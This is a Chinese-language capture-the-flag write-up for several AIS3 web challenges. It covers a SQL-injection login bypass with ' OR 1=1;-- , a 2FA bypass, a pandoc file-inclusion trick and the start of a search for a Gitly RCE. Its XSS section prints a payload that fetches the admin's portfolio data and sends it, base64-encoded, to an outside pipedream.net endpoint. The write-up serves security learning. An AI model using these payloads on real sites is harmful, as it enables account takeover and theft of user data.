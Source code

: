```js
        return res.redirect(`/login?msg=invalid_captcha`);
      }
      req.session.username = username;
      return res.redirect("/2fa");
    }
  );
});
```

觀察這個 API 可以看到有個明顯的 SQLi，可以使用 `admin` `' OR 1=1;-- ` 登入

之後發現 /dashboard 不用經過 2fa 驗證，所以直接去存取即可拿到 flag
`AIS3{' UNION SELECT 1, 1, 1, 1 WHERE ({condition})--}`

### E-Portfolio baby

用任意帳號登入後，經過測試發現可以用以下 XSS payload
`<svg><svg/onload=alert(1)>`

接下來發現 nonce 並沒有成功設定，以及 flag 是 admin 的密碼，所以我發現了 `/api/portfolio` 的內容會回傳 admin 的所有資訊，下一步就會讓 admin 去存取他，並將結果回傳回來

這個是最終 payload

```htmlembedded=
<svg><svg/onload='fetch("/api/portfolio").then(res=>res.text()).then(res=>fetch("https://eoudzw9ph3hhnmh.m.pipedream.net?ouo="+btoa(res)))' nonce="">
```

`AIS3{，，<img src=x onerror='fetch(...}`

### markToFiles

首先發現 pandoc 的這個參數可以自動 contain 本地的資源，但這個 deprecated 了，於是往下看到 --embed-resourse 跟 --standalone
![](https://hackmd.io/_uploads/Syp6dv1Hn.png)

透過看 [文件](https://pandoc.org/MANUAL.html#general-writer-options) 發現 --standalone 在 pdf, epub, epub3, fb2, docx, and odt 為 output format 時會自動開啟。

![](https://hackmd.io/_uploads/r1Mo_PyB2.png)

因此使用以下 payload 即可自動 contain 到本地的檔案

![](https://hackmd.io/_uploads/H1kPuDJH3.png)

`AIS3{R3@d1ng_D0cum3nt_1s_H31pfu1}`

### Gitly

這題是一個用 Vlang 撰寫的 GitHub/GitLab alternative [Gitly](https://github.com/vlang/gitly)，題目要我們找 zero day，又說預期解是 RCE，因此起手式就是把檔案 clone 下來後搜尋 os.execute

![](https://hackmd.io/_uploads/BJpzcD1S2.png)
